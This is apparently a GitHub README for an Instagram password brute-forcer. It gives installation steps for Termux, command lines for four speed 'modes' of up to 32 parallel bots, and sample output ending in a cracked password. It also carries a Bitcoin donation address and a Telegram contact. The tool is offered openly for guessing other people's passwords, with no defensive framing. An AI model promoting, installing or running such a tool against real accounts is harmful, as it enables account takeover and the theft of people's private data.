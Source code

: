 # Instagram
Hi, this is a Instagram brute-forcer<br>
# Donate
<b>Who does not mind a penny on the development of the project:</b><br>
<b>Bitcoin: 1LBjGEQ16jK23cVqtkFg5fm91poKVVAP5b<br>
<br>
There will be questions - Telegram: <a href="https://t.me/Mrxanon"> @Mrxanon</a><br>
# How to install?
<b>Follow the instructions...</b><br>
<b>If you have Android - download <a href="https://play.google.com/store/apps/details?id=com.termux&hl=ru">Termux from Google Play</a> and open it and write the commands below:<br>
• <code>apt update</code><br>
• <code>apt upgrade -y</code><br>
• <code>apt install python -y</code><br>
• <code>apt install git -y</code><br>
• <code>git clone https://github.com/Mr-X-01/Instagram</code><br>
• <code>cd Instagram</code><br>
• <code>pip3 install -r requirements.txt</code><br>

# How to start?
• <code>python3 instagram.py 'username' 'wordlist' -m 'mode'</code><br>

### Help

```
python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
python3 instagram.py Mr.x pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Mr.x
[-] Password: mr090
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Mr.x
[+] Password: mr090
```
